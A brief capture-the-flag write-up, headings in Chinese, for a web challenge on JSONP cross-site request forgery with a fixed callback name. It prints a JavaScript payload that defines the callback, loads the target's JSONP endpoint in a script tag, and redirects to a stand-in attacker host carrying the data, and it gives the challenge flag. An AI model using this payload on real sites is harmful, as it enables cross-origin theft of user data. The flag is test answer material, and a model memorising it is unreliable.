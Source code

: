 # 题目描述

JSONP is a old pattern for getting data into JS, but I heard it's insecure because an attacker can specify code instead of a function name. I solved this problem by not letting you change the name.

For this challenge you will need to submit a URL to the admin bot (a program that runs a browser and directs it to visit your URL, simulating a real person clicking your link). I recommend learning how to use [ngrok](https://ngrok.com/) if you don't know how to expose local solutions to the internet - I've also provided a template server using Python and Flask for your solution.

**Hint!** The admin's cookie is set with SameSite=None

# 解决方案

直接自己起个服务器，直接用payload打即可，因为提示`SameSite=None`，所以服务器会把它的cookie发送到我们起的服务器上，payload如下：

```
window.setMessage = (m) => {
    document.location = `https://attacker/?${m}`;
}
window.onload = () => {
    s = document.createElement("script");
    s.src = "https://babycsrf-web.chal.irisc.tf/api";
    document.body.appendChild(s);
}
```

```
irisctf{jsonp_is_never_the_answer}
```